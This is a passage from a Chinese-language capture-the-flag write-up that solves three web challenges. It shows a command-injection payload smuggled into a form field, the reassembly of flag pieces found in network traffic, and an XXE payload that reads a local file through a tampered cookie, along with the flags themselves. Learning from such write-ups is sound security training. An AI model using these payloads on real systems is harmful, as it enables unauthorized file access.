 第三处回显存在命令注入

payload

```
word=;cat flag*
```

真脑洞大开。。。

### Rick Roll

找到五部分flag

第一部分

```
Hey there you CTF solver, Good job on finding the actual challenge, so the task here is to find flags to complete the first half of the chorus of this song, and you
will find the flags around this entire web network in this format,/*[FLAG_PIECE]*/ Heres a piece to get started /*[RS{/\/eveRG0nna_]*/  find the next four parts of the famous chorus
```

`[|3tY0|_|d0vvn_]`

`[G1v3y0uuP_]`

`[D3s3RTy0u}]`

`[TuRna30unD_]`

就是在流量里搜索 `[`

拼接一下

```
RS{/\/eveRG0nna_G1v3y0uuP_|3tY0|_|d0vvn_TuRna30unD_D3s3RTy0u}
```

### X-Men Lore

*选择你的英雄*

一开始就在好奇明明没有传参数，怎么就知道我访问哪一个页面。=，原来是藏在cookie里，解码发现是xml，所以就是XXE

```xml
<?xml version='1.0' encoding='UTF-8'?><input><xmen>Jean Grey</xmen></input>
```

payload
#xxe 
```py
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE input [
<!ELEMENT xmen ANY>
<!ENTITY xxe SYSTEM "file:///flag">]>
<input><xmen>&xxe;</xmen></input>
```

`RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`
